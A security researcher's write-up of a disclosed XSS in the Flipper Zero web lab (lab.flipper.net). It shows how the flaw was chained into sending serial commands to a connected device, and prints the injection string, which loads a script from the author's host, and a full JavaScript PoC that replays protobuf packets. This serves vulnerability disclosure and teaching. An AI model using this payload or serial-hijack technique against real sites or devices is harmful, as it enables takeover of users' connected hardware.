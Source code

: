 # XSS 2 RCE on Flipper Zero
1670465161

Got RCE through an XSS on lab.flipper.net, here's the writeup

[PoC Video, printing 1337 on the screen](https://lude.rs/h4ck1ng/img/flipper_rce_poc.mp4)

Was installing the unleashed firmware on my flipper and notice that the "channel" parameter was being reflected on the dropdown. Being the nerd I am, injected an `<img/src/onerror=alert(1)>` ([https://tinyxss.terjanq.me/](https://tinyxss.terjanq.me/)) tag and boom XSS

![xss alert](https://lude.rs/h4ck1ng/img/veMxVtC.jpg)

The vulnerability occurs because of the "v-html" directive of Vue.js on the page 
`<q-item-label v-html="scope.opt.label" />`

[https://vuejs.org/api/built-in-directives.html#v-html](https://vuejs.org/api/built-in-directives.html#v-html)


alert() is boring, let's get RCE! The website is used to interface with your Flipper Zero  install new apps, update the firmware, etc.  This is done using the [Web Serial API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Serial_API), an experimental API to read/write serial devices, what could go wrong? 

The website has to ask the user for permission to connect, like for the webcam, but we can assume that the user already accepted because the XSS won't show if the flipper isn't connected. So I went to read how the serial communication is done on [https://github.com/flipperdevices/lab.flipper.net](https://github.com/flipperdevices/lab.flipper.net)

Looks like if we can execute `screenFrame(data)` the application will send a command to flipper display on the screen, which is enough for the PoC. The problem was that everything was wrapped with [Webpack](https://webpack.js.org/). Spent a lot of time debugging trying to find globally accessible objects and oh boi was impossible (accepting tips). Having gave up to use the app's own code, I had to made my payload to directly communicate via serial with flipper.
So I just open a `navigator.serial.getPorts()` and communicate with it, right? Wrong, the port is already being used and I can't get the reference of it because of [Webpack](https://webpack.js.org/). My workaround was to disconnect it and connect again, doing a `.click()` on the disconnect button (fuck webpack) Now we just need to send the right data to the flipper aaaaaaand ... the protocol is undocumented, nice. It uses [ProtoBuf](https://developers.google.com/protocol-buffers) which is not that hard to understand but what an overkill of a protocol does flipper have gosh (actually amazing). [https://github.com/flipperdevices/flipperzero-protobuf](https://github.com/flipperdevices/flipperzero-protobuf) 

To simplify the PoC I just did all the steps on the application itself and `console.log()` the shit out of it, had to use [HTTP Mock](https://portswigger.net/bappstore/42680f96fc214513bc5211b3f25fd98b) to change the js to properly get all the "packets" since it was too fast. Also had to manually edit the 3rd byte of every packet on the final payload, because it's incremental (guessing powers), btw every connection begins with `start_rpc_session\r`. Not sure what every byte is, but the biggest byte array is a bmp representation of the `1337` on screen. Then just replayed the data to the serial.

[https://github.com/caioluders/pocs/blob/main/flipper_rce_xss.js](https://github.com/caioluders/pocs/blob/main/flipper_rce_xss.js)

```javascript

// payload : <img/src/onerror=import('https://lude.rs/pocs/flipper_rce_xss.js')>

const sleep = ms => new Promise(r => setTimeout(r, ms));


setTimeout( async() => {

	// disconnect current serial ;
	document.querySelector("#q-app > div > header > div > button").click();

	await sleep(100);

	try {
		document.querySelector("body > div:nth-child(3) > div > div > div.column.items-center > button").click();
	} catch {
		document.querySelector("body > div:nth-child(4) > div > div > div.column.items-center > button").click();
	}

	await sleep(500);

	var ports = await navigator.serial.getPorts();
	var pwn = await ports[0].open({baudRate:1});
	var payload = [
		new Uint8Array([115,116,97,114,116,95,114,112,99,95,115,101,115,115,105,111,110,13]).buffer, // start_rpc_session\r
		new Uint8Array([4,8,1,42,0]).buffer,
		new Uint8Array([5,8,2,130,2,0]).buffer,
		new Uint8Array([10, 8, 3, 58, 6, 10, 4, 47, 101, 120, 116]).buffer,
		new Uint8Array([11, 8, 4, 226, 1, 6, 10, 4, 47, 101, 120, 116]).buffer,
		new Uint8Array([5,8,5,210,1,0]).buffer,
		new Uint8Array([9,8,6,186,1,4,8,4,16,0]).buffer,
		new Uint8Array([9,8,7,186,1,4,8,4,16,2]).buffer,
		new Uint8Array([9,8,8,186,1,4,8,4,16,1]).buffer,
		new Uint8Array([137,8,8,9,178,1,131,8,10,128,8,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,2,0,0,0,0,0,0,0,0,0,0,0,0,0,0,128,3,0,0,0,0,0,0,0,0,0,0,0,0,0,0,128,2,0,0,0,0,0,0,0,0,0,0,0,0,0,0,64,2,0,0,0,0,0,0,0,0,0,0,0,0,0,0,32,2,0,0,0,0,0,0,0,0,0,0,0,0,0,0,48,3,0,0,0,0,0,0,0,0,0,0,0,0,0,0,16,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,144,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,136,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,140,0,0,0,0,0,0,0,248,255,255,0,0,0,0,0,132,0,0,0,0,0,0,0,0,0,128,7,0,0,0,0,196,0,252,31,0,0,0,0,0,0,0,8,0,0,0,0,68,0,0,96,0,0,0,0,0,0,0,16,0,0,0,0,70,0,0,64,0,224,255,3,0,0,0,96,0,0,0,0,66,0,0,128,0,0,0,4,0,0,0,64,0,0,0,0,66,0,0,0,1,0,0,4,0,0,0,64,0,0,0,0,66,0,0,0,1,0,0,4,0,0,0,64,0,0,0,0,66,0,0,0,1,0,0,4,0,0,0,64,0,0,0,0,66,0,0,0,1,0,0,4,0,0,0,64,0,0,0,0,66,0,0,0,1,0,0,2,0,0,0,64,0,0,0,0,64,0,0,192,0,0,224,7,0,0,0,64,0,0,0,0,64,0,0,255,1,0,56,8,0,0,0,64,0,0,0,0,64,0,0,0,2,0,0,16,0,0,0,64,0,0,0,0,64,0,0,0,2,0,0,16,0,0,0,64,0,0,0,0,64,0,0,0,4,0,0,16,0,0,0,32,0,0,0,0,64,0,0,0,8,0,0,32,0,0,0,32,0,0,0,0,64,0,0,0,8,0,0,32,0,0,0,32,0,0,0,0,64,0,0,0,8,0,0,32,0,0,240,255,255,3,0,0,32,0,0,0,8,0,0,16,0,0,0,32,0,0,0,0,32,0,0,0,8,0,1,12,0,0,0,48,0,0,0,0,32,0,0,0,4,0,1,6,0,0,0,16,0,0,0,0,32,0,0,2,3,0,227,1,0,0,0,16,0,0,0,0,32,0,0,254,1,0,60,0,0,0,0,16,0,0,0,0,32,0,0,0,0,0,0,0,0,0,0,16,0,0,0,0,32,4,0,0,0,0,0,0,0,0,0,16,0,0,0,0,248,7,0,0,0,0,0,0,0,0,0,16,0,0,0,128,63,0,0,0,0,0,0,0,0,0,0,16,0,0,0,0,32,0,0,0,0,0,0,0,0,0,0,24,0,0,0,0,32,0,0,0,0,0,0,0,0,0,0,8,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,8,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,8,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,8,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,8,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,8,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]).buffer,
		new Uint8Array([9,8,10,186,1,4,8,4,16,0]).buffer,
		new Uint8Array([9,8,11,186,1,4,8,4,16,2]).buffer,
		new Uint8Array([9,8,12,186,1,4,8,4,16,1]).buffer
	];

	for (var i = 0; i < payload.length; i++) {
		await sleep(100);

		var writer = await ports[0].writable.getWriter() ; 
		await writer.write(payload[i]);
		await writer.close();
	}
	


	console.log('done');

},500);
```

What a wonderful era we live in, where XSS can get you RCE on an embedded device (ಥ﹏ಥ)

Shout out to hunter.dev for dealing with the disclosure process. [https://huntr.dev/bounties/03ce4392-c715-4127-af9b-e647d64fdd38/](https://huntr.dev/bounties/03ce4392-c715-4127-af9b-e647d64fdd38/)

